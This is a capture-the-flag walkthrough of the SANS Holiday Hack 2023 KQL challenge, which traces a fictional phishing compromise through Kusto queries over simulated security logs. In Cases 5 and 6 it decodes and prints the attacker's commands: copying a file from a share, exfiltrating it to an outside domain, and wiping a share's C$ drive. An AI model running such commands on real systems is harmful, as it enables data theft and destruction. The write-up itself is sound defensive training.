# KQL Kraken Hunt

**Difficulty**: <i class=twemoji_red>:fontawesome-solid-tree::fontawesome-solid-tree:</i>:fontawesome-solid-tree::fontawesome-solid-tree::fontawesome-solid-tree:<br/>
**Direct link**: [Kusto](https://detective.kusto.io/sans2023)

## Objective

!!! question "Request"
    Use Azure Data Explorer to [uncover misdeeds](https://detective.kusto.io/sans2023) in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

??? quote "Tangle Coalbox"
    Greetings, rookie. Tangle Coalbox of Kusto Detective Agency here.</br>
    I've got a network infection case on Film Noir Island that needs your expertise.</br>
    Seems like someone clicked a phishing link within a client's organization, and trouble's brewing.</br>
    I'm swamped with cases, so I need an extra pair of hands. You up for the challenge?</br>
    You'll be utilizing the Azure Data Explorer and those KQL skills of yours to investigate this incident.</br>
    Before you start, you'll need to create a free cluster.</br>
    Keep your eyes peeled for suspicious activity, IP addresses, and patterns that'll help us crack this case wide open.</br>
    Remember, kid, time is of the essence. The sooner we can resolve this issue, the better.</br>
    If you run into any problems, just give me a holler, I've got your back.</br>
    Good hunting, and let's bring this cyber criminal to justice.</br>
    Once you've got the intel we need, report back and we'll plan our next move. Stay sharp, rookie.
    
## Hints

??? tip "File Creation"
    Looking for a file that was created on a victim system? Don't forget the <em>FileCreationEvents</em> table.

??? tip "KQL Tutorial"
    Once you get into the [Kusto trainer](https://detective.kusto.io/sans2023), click the blue <em>Train me for the case</em> button to get familiar with KQL.

??? tip "Outbound Connections"
    Do you need to find something that happened via a process? Pay attention to the <em>ProcessEvents</em> table!

## Solution

We are provided nine datasets to ingest into Azure Data Explorer

 * AuthenticationEvents
 * Email
 * Employees
 * FileCreationEvents
 * InboundNetworkEvents
 * OutboundNetworkEvents
 * PassiveDns
 * ProcessEvents
 * SecurityAlerts

We then work to familiarize ourselves with the [Kusto Query Language](https://learn.microsoft.com/en-us/azure/data-explorer/kusto/query/), watch [videos](https://www.youtube.com/watch?v=Pl8n6GaWEo0), do a little [practice](https://learn.microsoft.com/en-us/training/modules/write-first-query-kusto-query-language/) and dive into analyzing the Geese Islands' network.

## Onboarding
!!! question
    How many Craftperson Elf's are working from laptops? 

**take** is a great way to check out a dataset.
```kql
Employees
| take 10
```

<figure markdown>

</figure>

Here we want to focus on **role** and **hostname**

``` kql
Employees  
| where role == "Craftsperson Elf" 
| where hostname has “laptop” 
| count
```
 
!!! success "Answer"
    25 

## Case 1 
!!! quote
    An urgent alert has just come in, 'A user clicked through to a potentially malicious URL involving one user.' This message hints at a possible security incident, leaving us with critical questions about the user's intentions, the nature of the threat, and the potential risks to Santa's operations. Your mission is to lead our security operations team, investigate the incident, uncover the motives behind email, assess the potential threats, and safeguard the operations from the looming cyber threat.</br> The clock is ticking, and the stakes are high - are you up for this exhilarating challenge? Your skills will be put to the test, and the future of Geese Island's digital security hangs in the balance. Good luck!</br>The alert says the user clicked the malicious link 'http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx'


!!! question
    What is the email address of the employee who received this phishing email? 

We look at the Email table using **take** again, and see we have a **link** column

```kql
Email  
| where link == "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" 
```
<figure markdown>

</figure>

!!! success "Answer"
    alabaster_snowball@santaworkshopgeeseislands.org 

!!! question
    What is the email address that was used to send this spear phishing email? 

!!! success "Answer"
    cwombley@gmail.com 

!!! question
    What was the subject line used in the spear phishing email? 

!!! success "Answer"
    [EXTERNAL] Invoice foir reindeer food past due 

## Case 2
!!! quote
    Nicely done! You found evidence of the spear phishing email targeting someone in our organization. Now, we need to learn more about who the victim is!</br>If the victim is someone important, our organization could be doomed! Hurry up, let's find out more about who was impacted!


!!! question
    What is the role of our victim in the organization? 

We go back to **Employees** and look for who has the email **alabaster_snowball@santaworkshopgeeseislands.org**

```kql
Employees
| where email_addr== "alabaster_snowball@santaworkshopgeeseislands.org"
```
<figure markdown>

</figure>

!!! success "Answer"
    Head Elf 

!!! question
    What is the hostname of the victim's machine? 

!!! success "Answer"
    Y1US-DESKTOP 

!!! question
    What is the source IP linked to the victim? 

!!! success "Answer"
    10.10.0.4 


## Case 3
!!! quote
    The victim is Alabaster Snowball? Oh no... that's not good at all! Can you try to find what else the attackers might have done after they sent Alabaster the phishing email?</br>Use our various security log datasources to uncover more details about what happened to Alabaster.

!!! question
    What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs! 

When Alabaster click's the link, it creates an outbound network connection, so we pivot over to the **OutboundNetworkEvents** table, use **take** to check what data exist, and check **url** for the link in the email

```kql
OutboundNetworkEvents  
| where url == "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
```
<figure markdown>

</figure>

!!! success "Answer"
    2023-12-02T10:12:42Z 

!!! question
    What file is dropped to Alabaster's machine shortly after he downloads the malicious file? 

This one we need to move over to the **FileCreationEvents** table. Using **take** again, we need to pivot using the hostname we saw listed for Alabaster earlier

```kql
FileCreationEvents 
| where hostname == "Y1US-DESKTOP"
| where timestamp >= datetime(2023-12-02T10:12:42Z)
``` 
<figure markdown>

</figure>

!!! success "Answer"
    C:\ProgramData\Windows\Jolly\giftwrap.exe 

 
## Case 4

!!! quote
    Well, that's not good. It looks like Alabaster clicked on the link and downloaded a suspicious file. I don't know exactly what giftwrap.exe does, but it seems bad.</br>Can you take a closer look at endpoint data from Alabaster's machine? We need to figure out exactly what happened here. Word of this hack is starting to spread to the other elves, so work quickly and quietly!

!!! question
    The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

We take a look through the tables, searching for Alabaster's system, and in **ProcessEvents** we find something interesting

```kql
ProcessEvents 
| where hostname == "Y1US-DESKTOP"
| where timestamp >= datetime(2023-12-02T10:12:42Z)
```
<figure markdown>

</figure>

!!! success "Answer"
    113.37.9.17 

!!! question
    What is the timestamp when the attackers enumerated network shares on the machine? 

You would use the **net** command to enumerate shares:

```kql
ProcessEvents 
| where hostname == "Y1US-DESKTOP"
| where timestamp >= datetime(2023-12-02T10:12:42Z)
| where process_commandline contains "net"
```
<figure markdown>

</figure>

!!! success "Answer"
    2023-12-02T16:51:44Z 

!!! question
    What was the hostname of the system the attacker moved laterally to? 

<figure markdown>

</figure>

!!! success "Answer"
    NorthPolefileshare 

## Case 5 
!!! quote
    Wow, you're unstoppable! Great work finding the malicious activity on Alabaster's machine. I've been looking a bit myself and... I'm stuck. The messages seem to be garbled. Do you think you can try to decode them and find out what's happening?<br>Look around for encoded commands. Use your skills to decode them and find the true meaning of the attacker's intent! Some of these might be extra tricky and require extra steps to fully decode! Good luck! </br> If you need some extra help with base64 encoding and decoding, click on the 'Train me for this case' button at the top-right of your screen.


!!! question
    When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

We look at the **ProcessEvents** table, filtering on the **powershell.exe** process.

```kql
ProcessEvents 
| where hostname == "Y1US-DESKTOP"
| where timestamp >= datetime(2023-12-02T10:12:42Z)
| where process_name == "powershell.exe"
```

<figure markdown>

</figure>

We focus on the process whose parent process is cmd.exe as that is what has been used to run all of the attacker commands.

!!! success "Answer"
    2023-12-24T16:07:47Z


!!! question
    What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

We take the base64 block of the powershell command identified, decode it, and also pass it to reverse() in light of it being in reverse oder.

```kql 
print str = base64_decode_tostring("KCAndHh0LnRzaUxlY2lOeXRoZ3VhTlxwb3Rrc2VEXDpDIHR4dC50c2lMZWNpTnl0aGd1YU5cbGFjaXRpckNub2lzc2lNXCRjXGVyYWhzZWxpZmVsb1BodHJvTlxcIG1ldEkteXBvQyBjLSBleGUubGxlaHNyZXdvcCcgLXNwbGl0ICcnIHwgJXskX1swXX0pIC1qb2luICcn")
| extend rstr = reverse(str)
```
<figure markdown>

</figure>

!!! success "Answer"
    NaughtyNiceList.txt

!!! question
    The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

We shift our query to look for **where process_commandline contains "powershell.exe"**

<figure markdown>

</figure>

<figure markdown>

</figure>

 I haven't been able to figure out how to convert this within Azure Data Explorer using KQL, but it's really easy to do in powershell

``` powershell
     PS /> [StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))
     downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file
```

!!! success "Answer"
    giftbox.com 

## Case 6
!!! quote
    Wow! You decoded those secret messages with easy! You're a rockstar. It seems like we're getting near the end of this investigation, but we need your help with one more thing...</br>We know that the attackers stole Santa's naughty or nice list. What else happened? Can you find the final malicious command the attacker ran?

!!! question
    What is the name of the executable the attackers used in the final malicious command?

There is one more powershell command we see in the previous search

<figure markdown>

</figure>

Using the same process to decode base64 gives us

```
C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$
```
!!! success "Answer"
    downwithsanta.exe

!!! question
    What was the command line flag used alongside this executable?

!!! success "Answer"
    --wipeall

## Well Done!
!!! quote
    Congratulations, you've cracked the Kusto detective agency section of the Holiday Hack Challenge! </br>By now, you've likely pieced together the broader narrative of the alert we received. It all started with Wombley Cube, a skilled Craftsperson, and a malicious insider, who sent an email to the esteemed head elf, Alabaster Snowball. This seemingly innocent email contained a dangerous link leading to the malicious domain, MadElvesNorthPole.org. Alabaster Snowball, from his PC, unwittingly clicked on the link, resulting in the download and execution of malicious payloads. Notably, you've also discerned Wombley Cube's ulterior motive: to pilfer a copy of Santa's naughty or nice list and erase the data on the share drive containing critical information to Santa's operations. Kudos to you!</br>To earn credit for your fantastic work, return to the Holiday Hack Challenge and enter the secret phrase which is the result of running this query:
 
```kql
print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
```
 
!!! success "Answer"
    Beware the Cube that Wombles 

## Response

!!! quote "Tangle Coalbox"
    I had my doubts, but you've proven your worth.</br>
    That phishing scheme won't trouble our client's organization anymore, thanks to your keen eye and investigatory prowess.</br>
    So long, Gumshoe, and be careful out there.
